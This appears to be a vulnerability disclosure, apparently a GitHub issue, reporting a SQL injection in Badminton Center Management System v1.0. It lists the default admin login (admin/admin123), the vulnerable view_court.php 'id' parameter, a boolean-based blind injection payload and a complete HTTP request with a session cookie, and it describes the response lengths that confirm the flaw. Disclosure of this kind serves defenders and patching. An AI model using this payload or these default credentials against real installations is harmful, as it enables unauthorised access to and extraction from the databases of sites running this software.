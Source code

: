 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/courts/view_court.php?id=

Vulnerability location: /bcms/admin/courts/view_court.php?id=,id

[+] Payload: /bcms/admin/courts/view_court.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /bcms/admin/courts/view_court.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 851
![image](https://user-images.githubusercontent.com/54017627/170618922-cc0ad8fb-43f3-4cd3-a080-2011c14af49c.png)

![image](https://user-images.githubusercontent.com/54017627/170618967-479987dd-e338-4b9d-9a55-14d3f7ce99af.png)

When length (database ()) = 7, Content-Length: 729
![image](https://user-images.githubusercontent.com/54017627/170618811-91d9981d-c10e-4cb4-93da-e2e2938d2b8a.png)

![image](https://user-images.githubusercontent.com/54017627/170618942-7758a3e3-7c6d-4901-b81f-b4ac3b0873ea.png)
